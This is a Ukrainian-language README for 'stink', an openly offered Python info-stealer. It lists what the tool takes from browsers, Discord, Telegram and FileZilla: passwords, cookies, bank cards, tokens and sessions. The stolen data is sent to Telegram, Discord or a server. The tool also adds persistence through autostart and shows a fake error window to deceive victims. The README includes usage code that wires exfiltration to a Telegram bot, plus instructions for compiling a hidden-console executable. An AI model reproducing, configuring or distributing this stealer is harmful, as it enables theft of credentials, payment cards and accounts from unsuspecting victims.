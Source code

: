 # stink

Стилер всього лише в декілька рядків з відправкою до Telegram / Server / Discord. Без залежностей, тільки вбудовані бібліотеки.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Опис
`stink` вже має значний функціонал, який тільки розширюватиметься.

## Навігація
* [Поточні можливості](#Поточні-можливості)
* [Приклад використання](#Приклад-використання)
  * [Стандартний](#Стандартний)
  * [Певні модулі](#Певні-модулі)
  * [Додаткові параметри](#Додаткові-параметри)
* [Створення exe](#Створення-exe)
  * [Створення виконуваного файла](#Створення-виконуваного-файла)
  * [За допомогою BAT](#За-допомогою-BAT)
  * [За допомогою CMD](#За-допомогою-CMD)

### Поточні можливості
1. Підтримка наступних браузерів:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Збір наступних даних:
   - Скріншот
   - Кукі
   - Паролі
   - Банківські карти
   - Історія
   - Закладки
   - IP-адреса
   - Конфігурація системи
   - Активні процеси
   - Токени Discord
   - Сесії Telegram
   - Хости FileZilla
3. Підтримка мультипрофілів браузера.
4. Відправка зібраних даних архівом в Telegram / Server / Discord.
5. Виконання в окремому потоці.
6. Виконання з використанням багатопроцесорності.
7. Можливість додання в автозапуск.
8. Вивід вікна з фейковою помилкою.

## Приклад використання
### Стандартний
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Певні модулі

Приклад зі збором тільки системних даних і скріншота.
```python
from stink import Stealer
from stink.enums import Features, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)], features=[Features.system, Features.screenshot]).run()
```
### Додаткові параметри

- `features` - вмикає модулі зі списку. Модулі можна імпортувати з `stink.enums.Features`. Доступні модулі:

  - `passwords` - збір паролів.

  - `cookies` - збір кукі.

  - `cards` - збір банківських карт.

  - `history` - збір історії пошуку.

  - `bookmarks` - збір закладок.

  - `extensions` - збір розширень браузера.

  - `processes` - збір активних процесів.

  - `system` - збір конфігурації системи.

  - `screen` - скріншот.

  - `discord` - збір токенів Discord.

  - `telegram` - збір сесій Telegram.

  - `filezilla` - збір хостів FileZilla.


- `utils` - вмикає утиліти зі списку. Утиліти можна імпортувати з `stink.enums.Utils`. Доступні утиліти:

  - `errors` - виведення помилок.

  - `autostart` - додання в автозапуск.

  - `message` - вивід фейкового вікна помилки.
  

- `senders` - запускає способи надсилання зі списку. Способи надсилання можна імпортувати з `stink.enums.Senders`. Доступні способи надсилання:

  - `server` - відправлення на сервер.

  - `telegram` - відправка в Telegram.

  - `discord` - надсилання в Discord.
## Створення exe
Python являється інтерпретованою мовою програмування, тому ми спочатку транслюємо його в C, а потім скомпілюємо в .exe файл.
Для цього нам знадобиться Nuitka.

### Створення виконуваного файла

1. [Завантажуємо](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архів.
2. Розпаковуємо архів і переходимо в директорію stink-master.
3. Створюємо test.py (або будь-яку іншу назву) файл в цій же директорії з наступним кодом:
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### За допомогою BAT
1. Запускаємо compiler.bat.

### За допомогою CMD
1. Відкриваємо `cmd`.
2. Прописуємо команду:
```
pip install virtualenv
```
3. Переходимо в папку з файлом `test.py`:
```
cd path\to\file
```
4. Створюємо віртуальне оточення і активуємо його:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Встановлюємо Nuitka:
````
pip install Nuitka==0.6.16.4
````
6. Для зменшення розміру файла додатково встановлюємо Zstandard (опціонально):
```
pip install zstandard==0.17.0
```
7. Прописуємо команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

Після виконання команди отримуємо test.exe файл із прихованою консоллю.
